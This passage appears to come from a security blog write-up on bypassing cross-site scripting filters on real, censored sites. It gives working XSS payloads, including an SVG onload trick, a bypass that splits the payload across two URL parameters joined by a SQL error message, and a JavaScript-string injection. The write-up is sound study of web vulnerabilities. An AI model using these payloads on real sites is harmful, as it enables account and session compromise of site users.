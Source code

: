 I had to use some basic tricks to get a final working payload:  

```html
<svg x='>' onload="window['al\u0065rt']('XSS')">
```

Bypass exploiting two parameters
--------------------------------

Here is one I'm very proud of. The reflection appeared inside a SQL error and the message looked like the following:  

```
Unknown column 'shword' in 'where clause'

select count(idx) as 'total_count' from [censored] where state = 1 AND news_free = 1 and shword = 'injection'
```

So we have control over the *injection* part but also on the `shword` value (it will be useful later). The URL looked like this :  

```
http://[censored].co.kr/lists?kind=shword.=&page=0&pcv=0%2F&menu_code&key=injection
```

Strange filters were applied on the `key` parameter. For example:  

* `<script>` is replaced by `[removed]`
* `<scrip` is not escaped but as soon as you add a trailing `t` the text is properly escaped
* some characters like the null byte aren't reflected so injection `hel%00lo` gives `hello` mais unfortunately it doesn't work for the script tag
* `onload` is reflected but not if there is an equal sign later...

So I was almost ready to give up when I thought I could reuse the equal sign from the SQL error, the one between `shword` and `injection` in the precedent output.  

I managed to get a working exploit with the following query string:  

```
kind=<svg%20onload&period=&page=0&pcv=0%2F&menu_code&key=alert`XSS`
```

producing the following error message:  

```html
You have an error in your SQL syntax(...) near '<svg onload = 'alert`XSS`'' at line 1
```

Bypass weak removal
-------------------

Here injection occurs inside a javascript tag:  

```javascript
var search = "injection";
```

Let's inject javascript without escaping the tag with the payload `-alert("xss")-` :  

```javascript
var search = ""-("xss")-"";
```
